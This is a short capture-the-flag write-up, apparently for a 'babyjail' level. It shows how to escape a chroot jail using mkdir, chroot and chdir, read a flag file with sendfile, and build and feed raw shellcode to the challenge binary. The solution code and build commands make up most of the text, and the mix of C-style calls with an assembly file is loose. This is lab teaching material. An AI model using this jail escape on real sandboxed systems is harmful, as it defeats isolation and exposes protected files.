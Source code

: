 In this problem, you are allowed to use the following system calls instead of `fchdir`.
1. Allowing syscall: chdir (number 80)
2. Allowing syscall: chroot (number 161)
3. Allowing syscall: mkdir (number 83)

You can get the hint for this problem from the Linux manual page for `chroot`.
The following commands perform `chroot` to another directory, nullifying the previous `chroot`.
After that, you can freely get out of the jail.
```
mkdir foo; chroot foo; cd ..
```

Use the following code to solve this problem.
```
mkdir("/foo", 0776);
chroot("/foo");
chdir("../../");
open("./flag", O_RDONLY);
sendfile(1, 4, 0, 0x80);
```

Running the following commands will lead you to the flag.
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level6_teaching1 / < ~/shellcode-raw
```